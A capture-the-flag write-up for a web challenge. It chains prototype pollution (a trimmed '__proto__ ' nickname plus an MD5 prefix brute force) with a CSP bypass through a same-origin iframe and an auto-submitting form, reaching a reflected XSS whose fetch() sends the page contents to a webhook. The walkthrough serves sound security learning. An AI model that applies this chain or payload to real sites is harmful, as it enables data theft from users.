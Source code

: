 # Imgurbage (web, 4 solves)

```
Imagine Imgur, but aim MUCH LOWER, and you got Imgurbage :D
```

## Analysis
The app greets us with a basic login/register form. We have 4 form fields:
![image](https://cdn.discordapp.com/attachments/998278361132576868/1001418125633409066/unknown.png)<br>
After creating an account we can see the main image list
![image](https://cdn.discordapp.com/attachments/998278361132576868/1001418148072923146/unknown.png)

...and three buttons: to add an image, to view other user's images (providing their username and password), and...<br>
![image](https://cdn.discordapp.com/attachments/998278361132576868/1001418160257368074/unknown.png)

### POST /register (main.js)
While inspecting the file we came across this suspicious if statement in the register function:
```js
if(md5(nickname) == "1f4e0a21bb6eef87c17ca2abdfc28369") {
		return res.view("error", {message: "I know what'you're doing. So you better think again >:D"});
}
```
A quick lookup at [MD5 hash database](https://md5decrypt.net/en/) shows that the blacklisted nickname is `__proto__`, so the main idea became prototype pollution. Now we need to find out how can we exploit this.
### addFriend.js
This script is a bot, which takes our username and password, and:
* Opens new headless chrome in incognito mode
* Creates a new account with a random username and password
* Adds a post containing a flag to the new account
* goes to /combine using our credentials
* waits for 7.5s before exiting and closing the tab

If we could only smuggle an XSS there... :)
### combine.ejs
This view, given two accounts, combines their image lists into one page. Three things came to our eyes:
* A CSP is enabled, using random nonce
* A `decade` variable is created is created suspiciously. Why?
```js
let decade = window.decade ?? user.decade;
```
* Our dream XSS is here!
```js
document.getElementById("decade").innerHTML += decade;
```

By overwriting the window.decade variable using prototype pollution, we could smuggle the HTML to this page, which addFriend would display. Sounds great!
But not so fast. We have two issues now:
* We have to find a way to execute prototype pollution
* We have to bypass the CSP.

Let's go back to our nickname, and see where and how it's used.
### addFriend() (user.js)
```js
addFriend(friend) {
		if(friend instanceof User && md5(friend.nickname) != "1f4e0a21bb6eef87c17ca2abdfc28369") {
			for(let img in friend.images[friend.nickname]) {
				if(!(friend.nickname.trim() in this.images)) this.images[friend.nickname.trim()] = {};
        ...
```
That's what we needed! When the bot adds our user, the MD5 of the nickname (`__proto__`) is checked once again, but then the nickname is trimmed! Consequently, using a single space will bypass the check, and let our nickname be the starting point for the prototype pollution.
Now we need to find a way to use it. Let's examine the feature of adding images.
### /new (main.js)
```js
users[req.user.username]["images"][req.user.nickname][md5(url).slice(0,6)] = [
			url,
			description,
];
```
Bingo! Our `__proto__ ` nickname can be used there - ideally, we want this line to become `users[req.user.username]["images"]["__proto__"]["decade"]`. This way, every object would have the decade property - thus window.decade would be set to an array of `[url, description]`, which we control! (Note that in JavaScript, arrays can be automatically casted to strings, so that's not a problem)

### MD5 bruteforce
Since `decade` word has exactly 6 letters and is made only from letters valid in MD5 hash, it's possible to create a hash that starts with `decade`.
A bit of googling led us to this script, which gave us this value: `3888454`.
```py
import hashlib

target = 'decade'
candidate = 0
while True:
    plaintext = str(candidate)
    hash = hashlib.md5(plaintext.encode('ascii')).hexdigest()
    if hash[:6] == target:
        print('plaintext:"' + plaintext + '", md5:' + hash)
        break
    candidate = candidate + 1
```
Now, adding an image with URL `3888454` and description with HTML code leads to XSS in /combine!
We still have one problem though: CSP.
### More XSS!
Now the tricky part begins. Our CSP string is `script-src 'self' 'nonce-<%- nonce %>'`, which means that we cannot directly execute the script in our XSS.
We need to find something else. Revisiting main.js, we discover another XSS vulnerability in the POST /register route:
```js
if(username in users) {
	return res.view("error", {message: "User " + username + " already exists!"});
}
```
Trying to register with already registered username will cause an XSS here, and because the error page is not protected with CSP - our payload (username) will be injected into the page as raw HTML.

### Iframe trick
Using an iframe pointing to our malicious website in the decade XSS will allow us to execute any script there, but there is one catch - we can access the parent window only if it's on the same domain as the iframe (because we want to access innerHTML of window.parent, which has the flag). We can use a trick - make the bot go to the /register page (which is on the same domain!) that has XSS vulnerability and no CSP! To achieve this, we must create an auto-submitting form with method="POST". This is only possible because the route doesn't have any Cross Site Request Forgery protection.

The idea was now to:
* Create an account with the username being our final XSS (extracting innerHTML from the iframe's parent window)
* Inject a malicious iframe to the decade XSS
* The iframe will serve a form pointing to /register with POST method
* The username input will have the value of our final XSS
* The form will automatically submit

### Preparing the iframe page
We need a simple server application to serve the malicious iframe. We can make this quickly using express.js and ngrok tunnel. Also, any service logging the requests is needed, for example [webhook.site](https://webhook.site).<br>


#### index.html
```html
<!DOCTYPE html>
<html>
    <body>
        <form method="post" action="http://localhost:8080/register">
            <input name="username" value="<script>fetch('[your-webhook-site]', {method:'post', body: window.parent.document.body.innerHTML});</script>">
            <input name="password" value="">
            <input name="nickname" value="">
            <input name="decade" value="">
        </form>
    </body>
    <script>
        setTimeout(() => {
            document.querySelector('form').submit();
        }, 500);
    </script>
</html>
```
#### index.js
```js
const express = require('express')
const app = express()

app.use((req, res, next) => {
    console.log('req');
    next();
});

app.get('/', (req, res) => {
    res.sendFile(__dirname+'/index.html');
});
app.listen(8080);
```



## Final solution
* Create first account with the username of our final XSS (to trigger an "Username is already registered" error later)
* Create second account with `__proto__ `&nbsp;nickname (don't miss the space!)
* Add the image with URL: `3888454` and description: `<iframe src="<ngrok/exploit url>">`
* Let the bot visit your (addFriend)
* Go to webhook.site (or your service of choice) and grab the flag!
* Realize it's already 4am and go to sleep 😴
